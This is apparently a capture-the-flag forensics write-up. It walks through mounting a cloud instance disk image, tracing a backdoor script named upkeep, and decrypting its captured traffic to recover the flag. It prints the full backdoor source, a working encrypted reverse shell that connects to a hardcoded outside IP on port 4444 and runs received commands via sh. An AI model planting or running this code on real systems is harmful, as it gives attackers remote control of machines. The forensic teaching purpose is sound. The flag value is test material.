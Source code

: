 # Sourced Traffic

Author: `anomie`

Saw suspicious traffic from one of our aws instances to an unusual port. We grabbed an image of the instance. See if you can figure out what is in the traffic

Disk image is at https://drive.google.com/file/d/19_B6LtovtjPmHE3Cv0uZgt7-IYxOHMiN/view?usp=sharing

## Dev Notes
Given files can be acquired with the command `make dist`, which produces a zip with the traffic capture file. Link to disk image is in the challenge description.


## Solution
Unpacking the provided disk image with `tar xJf disk.img.tar.xf`, we have:
```
> file disk.img
disk.img: SGI XFS filesystem data (blksz 4096, inosz 512, v2 dirs)
```
To take a further look, we can just mount the image.
```
sudo mkdir /mnt/chall
sudo mount -o loop disk.img /mnt/chall
```
First, let's check out `.bash_history` of the `ec2-user`:
```
sudo su
exit
sudo su
exit
```
Looking at the root home directory, there's a `flag.txt` that just says `lmao`, so that's probably not the actual flag. `.bash_history` is symlinked to (our) `/dev/null`, but `.python_history` shows `from Crypto.Cipher import AES`, which looks interesting.

Running `grep -r "from Crypto.Cipher import AES"`, there's a match in `/usr/bin/upkeep`. The source is reproduced below:

```python
#!/bin/python3

from Crypto.Cipher import AES
from secrets import token_bytes
from time import sleep
import socket
import struct
import subprocess

key = token_bytes(32)

def enc_send(sock, msg):
    nonce = token_bytes(12)
    aes = AES.new(key, AES.MODE_GCM, nonce)
    enc_msg = aes.encrypt(msg)
    sock.sendall(struct.pack('<Q', len(enc_msg)))
    sock.sendall(enc_msg)
    sock.sendall(nonce)

def enc_recv(sock):
    nbytes = struct.unpack('<Q', sock.recv(8))[0]
    enc_msg = sock.recv(nbytes)
    nonce = sock.recv(12)
    aes = AES.new(key, AES.MODE_GCM, nonce)
    return aes.decrypt(enc_msg)


def main():
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(('3.83.112.42', 4444))
    sock.setblocking(True)
    sock.sendall(key)

    while True:
        cmd = enc_recv(sock)
        print(cmd)
        if cmd == b'disconnect':
            return
        try:
            out = subprocess.check_output(['sh', '-c', cmd])
        except:
            out = b'command failed'
        enc_send(sock, out)


if __name__ == "__main__":
    main()
```


The client communicates with a hardcoded destination of 3.83.112.42 on TCP port 4444, so we can filter by `ip.dst == 3.83.112.42 && tcp.port == 4444` in Wireshark, follow the TCP stream, then export the conversation as raw bytes. The client initially sends a random 32-byte key for AES-GCM. All subsequent messages from both the client and the server are structured as 8 bytes of ciphertext length in little-endian, followed by the bytes of the actual ciphertext, then 12 bytes for a nonce. See `solve.py` for details.

Flag: `gigem{s1mpl3_tr4ff1c_d3crypt10n}`
